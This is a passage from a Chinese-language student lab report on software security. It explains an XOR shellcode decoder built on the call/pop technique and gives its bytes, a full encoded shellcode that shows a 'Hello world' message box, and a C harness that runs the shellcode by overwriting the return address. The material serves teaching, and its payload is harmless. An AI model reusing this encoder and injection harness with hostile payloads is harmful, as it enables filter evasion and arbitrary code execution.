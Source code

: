 ​	当我们执行call label时，eip的值（指向pop eax这条指令）被压入栈中，然后我们紧接着进行pop操作，这时我们就把eax的值赋值成了当前指令的值了，然后再加上0x15（解码代码的指令长度数），就定位到了我们的shellcode代码的起始位置，解决了这个关键问题。
​	在decode_loop的循环之中，我们不断地将编码后的代码再异或0x44来实现解码操作。解码的终止条件是用cmp语句来判断bl是否等于我们在原shellcode代码最后增加的“0x90”，如果是的话就跳出循环。通过这一代码，我们就实现了解码的操作。

​	我们提取出shellcode代码，然后成功进行指令的解码：

<img src="C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20240412195848796.png" alt="image-20240412195848796" style="zoom: 67%;" />

​	解码的代码为：

```
\xE8\x00\x00\x00\x00\x58\x83\xc0\x15\x33\xc9\x8a\x1c\x08\x80\xf3\x44\x88\x1c\x08\x41\x80\xfb\x90\x75\xf1
```

​	我们将解码和弹窗输出的shellcode的编码合在一起，就可以得到完整的shellcode：

```
\xE8\x00\x00\x00\x00\x58\x83\xc0\x15\x33\xc9\x8a\x1c\x08\x80\xf3\x44\x88\x1c\x08\x41\x80\xfb\x90\x75\xf1\x77\x9f\x17\x2c\x36\x28\x20\x64\x2c\x2b\x64\x33\x2b\x2c\x2c\x21\x28\x28\xcf\x80\x17\x14\x14\x17\xfc\xae\x43\x91\x33\xbb\x94\xd4
```

​	我们将下面这段代码代入到程序中进行验证，观察到弹窗输出“Hello world”，说明我们的整个操作正确。

```c++
#include <stdio.h>
#include <windows.h>
char ourshellcode[]="\xE8\x00\x00\x00\x00\x58\x83\xc0\x15\x33\xc9\x8a\x1c\x08\x80\xf3\x44\x88\x1c\x08\x41\x80\xfb\x90\x75\xf1\x77\x9f\x17\x2c\x36\x28\x20\x64\x2c\x2b\x64\x33\x2b\x2c\x2c\x21\x28\x28\xcf\x80\x17\x14\x14\x17\xfc\xae\x43\x91\x33\xbb\x94\xd4";
void main()
{
	LoadLibrary("user32.dll");
	int *ret;
	ret=(int*)&ret+2;
	(*ret)=(int)ourshellcode;
	return;
}
```

​	运行程序，发现程序输出“Hello world”，说明程序正确！

![](E:\学学学\本科\大二下\软件安全\软件安全_实验_2211044_陆皓喆\Lab5\pic\Windows XP Professional-2024-04-12-20-03-13.png)



<div STYLE="page-break-after: always;"></div>

# 心得体会：

- 通过本次实验，我对于shellcode代码的植入与编写、编码与解码有了更深的了解。植入的原理是：利用溢出来覆盖返回地址，从而去执行植入的恶意程序，所以在植入代码前，我们需要做一些工作，比如说弄清楚输入点，搞清楚他们所存在的位置，选择一个指令的地址并制作出一个shellcode字符串。

<img src="E:\学学学\本科\大二下\软件安全\复习笔记_陆皓喆\pic\屏幕截图 2024-04-12 094427.png" style="zoom: 67%;" />
